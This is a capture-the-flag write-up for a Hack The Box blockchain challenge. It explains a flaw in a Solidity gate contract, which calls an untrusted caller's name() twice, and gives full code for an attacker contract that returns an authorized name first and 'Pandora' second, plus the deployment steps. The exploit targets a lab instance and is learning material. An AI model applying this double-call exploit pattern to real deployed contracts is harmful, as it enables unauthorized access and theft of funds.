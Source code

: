 # Blockchain: The Art of Deception

- Date: 19.03.2023
- Link: <https://ctf.hackthebox.com/event/821>

## Environment

HI TOBI

```
IP1=159.65.62.241:31090
IP2=159.65.62.241:32094
```

Connect to `IP2` to get the connection details:

``` shell-session
$ nc 165.232.108.200 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xaed670f921dc66aa949185dac3a38f78638807bb0932b0340473203431678123
Address         :  0xD91878cAF52230be2645862A639487953a04Dadd
Target contract :  0x5337a93f98ae379b878fB4969Ec9370B83CF5618
Setup contract  :  0x7B59De9FdAd4b0A4B0366677A971A41E24132DBF
```

## Win Condition (Study the Smart Contract)

In the Setup contract we see that in order to solve this challenge, the last
person to enter a *high* security gate needs to be named "Pandora".

``` solidity
function isSolved() public view returns (bool) {
  return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
}
```

The Smart Contract ensures, that we shoot these shots in order (first, second,
third). [Info modifier](https://www.tutorialspoint.com/solidity/solidity_function_modifiers.htm)

``` solidity
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

contract HighSecurityGate {
    
    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }

    function strcmp(string memory _str1, string memory _str2) public pure returns (bool){
        return keccak256(abi.encodePacked(_str1)) == keccak256(abi.encodePacked(_str2)); 
    }
}
```

After studying the Smart Contact in detail, we find the vulnerability is most
likely in the `enter` function:

``` solidity
function enter() external {
  Entrant _entrant = Entrant(msg.sender);

  require(_isAuthorized(_entrant.name()), "Intruder detected");
  lastEntrant = _entrant.name();
}
```

The entrant is set to a value we have control over. It is derived from `msg.sender`.
In Solidity `msg.sender` means the "The entity that sent me this request". So we
can manipulate the `_entrant.name()` by creating a Smart Contact that interacts
with the `HighSecurityGate` Contract:

```solidity
pragma solidity ^0.8.18;

# Copied from HighSecurityGate
interface Entrant { 
    function name() external returns (string memory);
}

contract Attacker is Entrant {
  bool public firstCheck = true;
  string public _name = "Orion";

  function name() external returns (string memory){
    return _name;
  }

}
```

To call the already deployed Smart Contract, I followed the example from here: https://solidity-by-example.org/calling-contract/.

Lets add a method with a parameter pointing to the TARGET contract and call
`enter()` on it:

```
import {HighSecurityGate} from "./FortifiedPerimeter.sol";

...

function callSecGate(HighSecurityGate _gate) external {
  _gate.enter();
}
```

With this we can access the Gate as "Orion".

### Prepare the Exploit

If we look at the `HighSecurityGate` again, we notice that `_entrant.name()` is
called two separate times.

``` solidity
require(_isAuthorized(_entrant.name()), "Intruder detected");
lastEntrant = _entrant.name();
```

Once to check if the entrant is authorized and once again to save the name of
the last person that entered the gate. Notice that there is no check if `_entrant.name()`
returns the same value twice. This is our attack vector :devil:.

We adjust our `Attacker` smart contact so `name` return something different the
second time it is called.

``` solidity
pragma solidity ^0.8.18;

interface Entrant {
    function name() external returns (string memory);
}

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Attacker is Entrant {
  bool public firstCheck = true;

  function name() external returns (string memory){
    if (firstCheck){
      firstCheck = false;
      return "Orion";
    }
    return "Pandora";
  }

  function callSecGate(HighSecurityGate _gate) external {
    _gate.enter();
  }

  // Just in case
  function reset() external {
   firstCheck = true;
  }
}
```

## Execute the Plan

To compile and deploy our Attacker Contact, I used the [Remix VSCode extension](https://marketplace.visualstudio.com/items?itemName=RemixProject.ethereum-remix).

![use-compile-and deploy](images/use-compile-and-deploy.png)

First we connect to the RPC IP given to us by HTB (`IP1` from above):

![set-rpc-connection](images/set-rpc-connection.png)

Then we compile the Smart Contract and deploy it on the blockchain.

![compile-and-deploy-in-remix](images/compile-and-deploy-in-remix.png)

To execute our attack, we supply the target address to our `callSecGate()` method.

![call-attack-function](images/call-attack-function.png)  

Result:  
![attack-transaction-ok](images/attack-transaction-ok.png)

With this we can collect our reward:

``` sh
nc 159.65.62.241 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{...}
```

